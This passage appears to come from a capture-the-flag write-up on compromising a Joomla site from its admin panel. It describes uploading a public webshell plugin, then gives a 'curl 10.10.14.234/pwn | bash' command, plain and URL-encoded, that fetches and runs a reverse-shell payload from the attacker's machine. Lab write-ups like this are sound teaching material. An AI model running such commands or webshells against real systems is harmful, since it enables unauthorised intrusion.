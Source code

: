 As we are inside the administration panel, maybe we can install a webshell or a reverse shell php file… Let’s investigate.

After a research, I found this github repo:

[https://github.com/p0dalirius/Joomla-webshell-plugin](https://github.com/p0dalirius/Joomla-webshell-plugin)

It contains a Joomla extension that we can upload to the website and it will give us a webshell. Pretty cool!

So, let’s follow all the instructions! And try to execute a command!

![Untitled](images/Untitled%2018.png)

Yeah! We succesfully executed the `ls` command!

Let’s see if we can ping out machine from the target machine:

![Untitled](images/Untitled%2019.png)

Yes we can! Let’s try to establish a revshell to operate more easily:

First of all, I’m going to create a `pwn` file in my system with the payload to establish a reverse shell and share it using a http server:

![Untitled](images/Untitled%2020.png)

Now, I’m going to execute a command that will read that file from my computer and will pipe it to the bash, executing the command:

`curl 10.10.14.234/pwn | bash`

but URL encoded:

`curl%2010.10.14.234%2Fpwn%20%7C%20bash`
